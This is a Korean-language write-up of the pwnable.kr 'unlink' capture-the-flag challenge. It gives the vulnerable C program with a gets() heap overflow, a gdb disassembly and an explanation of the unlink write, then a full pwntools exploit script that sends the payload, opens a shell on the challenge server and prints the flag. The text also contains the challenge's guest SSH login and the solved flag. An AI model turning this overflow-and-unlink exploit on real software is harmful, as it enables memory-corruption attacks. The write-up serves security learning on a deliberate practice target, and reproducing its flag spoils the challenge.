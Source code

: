 # 문제
Daddy! how can I exploit unlink corruption?

ssh unlink@pwnable.kr -p2222 (pw: guest)

---  
# 개요
```
unlink@ubuntu:~$ ls
flag  intended_solution.txt  unlink  unlink.c
unlink@ubuntu:~$ cat intended_solution.txt
cat: intended_solution.txt: Permission denied
```  
음 별로 도움은 되지 않네요 ㅡㅡ;; unlink.c를 살펴봅시다.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```
힙 영역에서 발생하는 취약점을 먼저 보고올 필요가 있습니다.
* ![링크1](https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/) Hackers on the Ship 블랙펄 화이팅!
* ![링크2](http://www.hackerschool.org/HS_Boards/data/Lib_system/doublefree.txt) Hackerschool

두 개의 문서를 보고 풀이를 보시면 좀더 편합니다!
```c
gets(A->buf);

// exploit this unlink!
unlink(B);
return 0;
```
A를 Overflow 시켜서 공격을 하는 문제 입니다.
이 코드를 통해 B를 조작할 수 있습니다.
```c
void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
```
보통 unlink는 free를 하면서 일어나는데 여기서는 free를 하는 대신 unlink 함수를 따로 정의하여 사용합니다.

먼저 unlink를 disassembly 해서 살펴봅니다.
```
(gdb) disas unlink
Dump of assembler code for function unlink:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	sub    $0x10,%esp
   0x0804850a <+6>:	mov    0x8(%ebp),%eax
   0x0804850d <+9>:	mov    0x4(%eax),%eax
   0x08048510 <+12>:	mov    %eax,-0x4(%ebp)
   0x08048513 <+15>:	mov    0x8(%ebp),%eax
   0x08048516 <+18>:	mov    (%eax),%eax
   0x08048518 <+20>:	mov    %eax,-0x8(%ebp)
   0x0804851b <+23>:	mov    -0x8(%ebp),%eax
   0x0804851e <+26>:	mov    -0x4(%ebp),%edx
   0x08048521 <+29>:	mov    %edx,0x4(%eax)
   0x08048524 <+32>:	mov    -0x4(%ebp),%eax
   0x08048527 <+35>:	mov    -0x8(%ebp),%edx
   0x0804852a <+38>:	mov    %edx,(%eax)
   0x0804852c <+40>:	nop
   0x0804852d <+41>:	leave  
   0x0804852e <+42>:	ret    
End of assembler dump.
(gdb)
```
unlink(B)이므로 모든 것을 B로 정리를 하면 아래와 같습니다.  
* bk를 ebp - 0x4에 저장
* fd를 ebp - 0x8에 저장
* [fd+4]에 bk를 저장
* [bk]에 fd를 저장

이를 이용하여 원하는 곳에 원하는 값을 입력 가능합니다.

필자는 ret를 직접적으로 건드리지 못하기 때문에
unlink 함수의 SFP를 조작하여 main의 esp 값을 조작해서 문제를 해결했습니다.
ebp를 조작하여 heap에 할당된 데이터영역(buf)를 사용하여 eip에 shell의 주소를 넣었습니다.

```python
from pwn import*

p = ssh(user='unlink',host='pwnable.kr',port=2222,password='guest')
connect = p.process("./unlink")

connect.recvuntil("here is stack address leak: ")
stack_leak = int(connect.recvline().strip(),16)
ret = stack_leak+40

connect.recvuntil("here is heap address leak: ")
heap_leak = int(connect.recvline().strip(),16)

shell = 0x80484eb
ebp = stack_leak-0x1c
fake_ebp = heap_leak+16

payload = p32(shell)+p32(fake_ebp-4)+"A"*8
payload += p32(fake_ebp)
payload += p32(ebp)

connect.sendline(payload)
connect.interactive()
```
실행시켜봅시다!
```
secretpack@ubuntu:~/Desktop$ python exp.py
[+] Connecting to pwnable.kr on port 2222: Done
[!] Couldn't check security settings on 'pwnable.kr'
[+] Starting remote process './unlink' on pwnable.kr: pid 54659
[*] Switching to interactive mode
now that you have leaks, get shell!
$ $ ls
flag  intended_solution.txt  unlink  unlink.c
$ $ cat flag
conditional_write_what_where_from_unl1nk_explo1t
```
